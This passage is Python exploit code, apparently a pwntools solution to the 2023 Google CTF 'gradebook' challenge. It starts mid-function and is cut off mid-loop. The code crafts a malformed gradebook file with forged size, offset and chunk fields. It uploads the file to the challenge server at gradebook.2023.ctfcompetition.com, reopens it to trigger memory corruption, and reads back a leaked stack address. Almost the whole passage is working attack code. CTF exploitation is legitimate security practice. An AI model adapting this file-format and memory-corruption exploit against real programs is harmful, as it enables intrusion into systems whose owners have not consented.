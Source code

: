 ```python
              sus : int,
              studentfirstname : bytes,
              studentlastname : bytes,
              classr : bytes,
              course_title : bytes,
              grade : bytes,
              teacher : bytes,
              room : int,
              period :int):
    # classr: dc
    signature = 0x20
    grdbk = b'\x47\x52\xAD\xE5'
    grdbk += p32(signature)
    grdbk += studentlastname.ljust(0x20, b'\0')
    grdbk += studentfirstname.ljust(0x20, b'\0')
    grdbk += p64(filesz) # file sz
    grdbk += p64(offset_current_chunk) # <-- offset to current chunk
    grdbk += p64(sus) # <-- must not be smaller than 0x60
    grdbk += b'A'*0x38+p64(0)
    grdbk += info(classr=classr,
                  course_title=course_title,
                  grade=grade,
                  teacher=teacher,
                  room=room,
                  period=period)
    
    grdbk += b'\0'*0x100
    
    print(hex(len(grdbk)))
    f = open('/tmp/grades_60bc167766f388675d09e6deb7b1e38c', 'wb')
    f.write(grdbk)
    f.close()
    return grdbk


while 1:
    if DEBUG:
        io1 = process('./chal')
    else:
        io1 = remote('gradebook.2023.ctfcompetition.com', 1337)
    pause()
    book = gradebook(0xb0,
                    0x60,
                    0x60,
                    b'Billy',
                    b'Grade',
                    b'A'*8,
                    b'A'*0x16,
                    b'A'*0x2,
                    b'A'*0xc,
                    0x12345678,
                    0x12345678)
    io1.sendlineafter(b'PASSWORD:\n', b'pencil')
    io1.sendlineafter(b'QUIT\n\n', b'2')
    io1.sendlineafter(b'NAME:\n', b'/tmp/grades_60bc167766f388675d09e6deb7b1e38c')
    io1.sendlineafter(b'ENTER FILE SIZE:\n', str(len(book)).encode())
    io1.sendafter(b'SEND BINARY FILE DATA:\n', book)
    io1.sendlineafter(b'QUIT\n\n', b'1')
    io1.sendlineafter(b'NAME:\n', b'/tmp/grades_60bc167766f388675d09e6deb7b1e38c')

    io1.recvuntil(b'AAAA     ')
    try:
        stack = u64(io1.recvline()[0:-1]+b'\0\0')
```